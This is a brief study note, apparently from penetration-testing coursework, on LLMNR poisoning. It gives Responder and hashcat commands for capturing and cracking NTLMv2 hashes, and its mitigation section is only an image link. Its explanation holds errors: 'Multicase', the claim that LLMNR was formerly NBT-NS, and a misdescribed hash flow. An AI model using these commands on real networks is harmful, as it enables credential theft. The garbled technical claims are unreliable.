 - - -
### What is LLMNR ? 

☐ <mark class="hltr-yellow">LLMNR</mark> = <mark class="hltr-grey">Link Local Multicase Name Resolution</mark>.

☐ It is used to Identify Hosts when DNS Failed to do so.

☐ Previously known as NBT-NS = Netbios Name Service.

☐ The key-flaw here is that when we request to this service then it acctually reponds back with **User:Hash** (NTLMv2). 

![Imgur](https://i.imgur.com/zldMgYK.png)
<br>

- - -
##  Attacking Steps : 

```python
python Respender.py -I tun0 -rdw -v 
```

Now Wait for someone to access you, Copy the Hash
```sh
hashcat -m 5600 hashes.txt /opt/rockyou.txt 
```
<br>

- - -
## Mitigations ( Defense ) : 

![Imgur](https://i.imgur.com/eJbOEZv.png)
<br>

- - -